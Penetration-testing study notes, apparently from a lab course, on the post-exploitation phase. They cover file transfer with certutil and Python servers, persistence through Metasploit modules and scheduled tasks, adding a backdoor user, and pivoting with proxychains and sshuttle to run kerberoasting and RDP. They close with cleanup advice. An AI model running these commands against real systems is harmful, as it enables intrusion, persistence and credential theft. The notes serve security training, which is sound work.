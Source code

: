 ## POST!  
### File Transfer Review
#### Certutil  
certutil.exe -urlcache -f http://192.168.176.129/file.txt file.txt   
#### HTTP  
python -m SimpleHTTPServer 80  
#### FTP 
python -m pyftpdlib 21  
ftp 192.168.176.129  
#### LINUX 
wget   
#### Metasploit
upload download file feature from session  
***  
### Maintaining Access Overview  
Persistence is dangerous and not normally needed for pentest.. typically RED TEAM function  
run persistence -h  
exploit/windows/local/persistence  
exploit/windows/local/registry_persistence  
#### Scheduled Tasks  
run scheduleme  
run schtaskabuse    
#### Add a user
net user hacker password123 /add  
***  
### Pivoting  
cat /etc/proxychains4.conf  
identify socks port, `socks4 127.0.0.1 9050`  

`ssh -f -N -D 9050 -i pivot root@10.10.155.5`  
-f : background SSH  
-N : do not execute remote commands, great for port forwarding   
-D : where to bind port  
to use, use following syntax  

nmap through proxychains pivot, to another remote network  
`proxychains nmap 10.10.10.225`  
kerberoast through pivot  
`proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 192.168.176.121 -request`   
RDP through proxychains  
`proxychains xfreerdp /u:administrator /p:'hacker321!' /v:10.10.10.225`  
run firefox with proxychains, to browse websites on remote pivot network  
`proxychains firefox`  

#### Pivot with sshuttle  
install with `sudo pip install sshuttle`  
`sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"`
as long as this shuttle/ssh connection is active,  you'll be able to access the pivoted network  
can also try 'chisel' tool   
***  
### Cleaning UP  
Make the system/network as it was when you entered it  
Remove executables, scripts, and added files  
Remove malware, rootkits, and added user accounts  
Set settings back to original configs  
***   